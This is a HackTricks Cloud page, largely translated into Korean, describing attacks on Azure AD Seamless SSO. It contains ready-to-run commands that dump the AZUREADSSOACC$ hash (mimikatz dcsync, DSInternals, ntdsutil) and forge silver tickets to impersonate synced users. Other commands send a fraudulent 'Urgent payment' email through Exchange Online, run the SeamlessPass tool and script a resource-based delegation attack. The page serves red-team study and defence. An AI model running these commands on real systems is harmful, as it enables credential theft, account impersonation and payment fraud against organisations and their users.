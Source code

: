 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO)는 **사용자가 회사 네트워크에 연결된 회사 장치에서 있을 때 자동으로 로그인**합니다. 활성화되면, **사용자는 Azure AD에 로그인하기 위해 비밀번호를 입력할 필요가 없으며**, 일반적으로 사용자 이름도 입력할 필요가 없습니다. 이 기능은 사용자가 추가적인 온프레미스 구성 요소 없이 클라우드 기반 애플리케이션에 쉽게 접근할 수 있도록 합니다.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

기본적으로 Azure AD Seamless SSO는 **온프레미스 도메인에 가입된 PC에서** 사용자를 **로그인**합니다.

이는 [**PHS (Password Hash Sync)**](phs-password-hash-sync.md)와 [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) 모두에서 지원됩니다.

데스크탑 SSO는 인증을 위해 **Kerberos**를 사용합니다. 구성되면, Azure AD Connect는 온프레미스 AD에 **AZUREADSSOACC`$`라는 컴퓨터 계정을 생성**합니다. `AZUREADSSOACC$` 계정의 비밀번호는 **구성 중에 Azure AD에 평문으로 전송**됩니다.

**Kerberos 티켓**은 비밀번호의 **NTHash (MD4)**를 사용하여 **암호화**되며, Azure AD는 전송된 비밀번호를 사용하여 티켓을 복호화합니다.

**Azure AD**는 Kerberos **티켓**을 수락하는 **엔드포인트**(https://autologon.microsoftazuread-sso.com)를 노출합니다. 도메인에 가입된 머신의 브라우저는 SSO를 위해 이 엔드포인트로 티켓을 전달합니다.

### On-prem -> cloud

사용자 **`AZUREADSSOACC$`의 비밀번호는 절대 변경되지 않습니다**. 따라서 도메인 관리자는 **이 계정의 해시를 손상시킬 수 있으며**, 이를 사용하여 **은 티켓**을 생성하여 **동기화된 모든 온프레미스 사용자**로 Azure에 연결할 수 있습니다.
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
해시를 사용하여 이제 **실버 티켓을 생성할 수 있습니다**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
To utilize the silver ticket, the following steps should be executed:

1. **브라우저 시작:** Mozilla Firefox를 실행해야 합니다.
2. **브라우저 구성:**
* **`about:config`**로 이동합니다.
* [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication)의 기본 설정을 지정된 [값](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)으로 설정합니다:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **웹 애플리케이션 접근:**
* 조직의 AAD 도메인과 통합된 웹 애플리케이션을 방문합니다. 일반적인 예로는 [Office 365](https://portal.office.com/)가 있습니다.
4. **인증 과정:**
* 로그인 화면에서 사용자 이름을 입력하고 비밀번호 필드는 비워둡니다.
* 진행하려면 TAB 또는 ENTER를 누릅니다.

{% hint style="success" %}
이것은 MFA가 활성화된 경우 우회하지 않습니다.
{% endhint %}

#### Option 2 without dcsync - SeamlessPass

이 공격은 **dcsync 공격 없이** 수행할 수도 있습니다. [이 블로그 게시물](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/)에서 설명된 대로 더 은밀하게 진행할 수 있습니다. 이를 위해 다음 중 하나만 필요합니다:

* **손상된 사용자의 TGT:** 사용자가 손상되었지만 TGT가 없더라도, [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) 및 [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9)와 같은 많은 도구에서 구현된 가짜 TGT 위임 트릭을 사용하여 얻을 수 있습니다.
* **골든 티켓**: KRBTGT 키가 있다면 공격받는 사용자에게 필요한 TGT를 생성할 수 있습니다.
* **손상된 사용자의 NTLM 해시 또는 AES 키:** SeamlessPass는 이 정보를 사용하여 도메인 컨트롤러와 통신하여 TGT를 생성합니다.
* **AZUREADSSOACC$ 계정 NTLM 해시 또는 AES 키:** 이 정보와 공격할 사용자의 보안 식별자(SID)를 사용하여 서비스 티켓을 생성하고 클라우드에 인증할 수 있습니다(이전 방법에서 수행한 대로).

마지막으로, TGT를 사용하여 [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) 도구를 사용할 수 있습니다:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Firefox를 원활한 SSO와 함께 작동하도록 설정하는 추가 정보는 [**이 블로그 게시물에서**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/) 확인할 수 있습니다.

#### ~~클라우드 전용 사용자에 대한 Kerberos 티켓 생성~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Active Directory 관리자가 Azure AD Connect에 접근할 수 있다면, **클라우드 사용자에 대한 SID를 설정할 수 있습니다**. 이렇게 하면 Kerberos **티켓**이 **클라우드 전용 사용자에 대해서도 생성될 수 있습니다**. 유일한 요구 사항은 SID가 적절한 [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))여야 한다는 것입니다.

{% hint style="danger" %}
클라우드 전용 관리자 사용자의 SID 변경은 현재 **Microsoft에 의해 차단되었습니다**.\
자세한 정보는 [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)를 확인하세요.
{% endhint %}

### 온프레미스 -> 클라우드 리소스 기반 제약 위임을 통한 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

이 계정이 있는 컨테이너 또는 OU에서 컴퓨터 계정을 관리할 수 있는 사람은 **계정에 대한 리소스 기반 제약 위임을 구성하고 접근할 수 있습니다**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
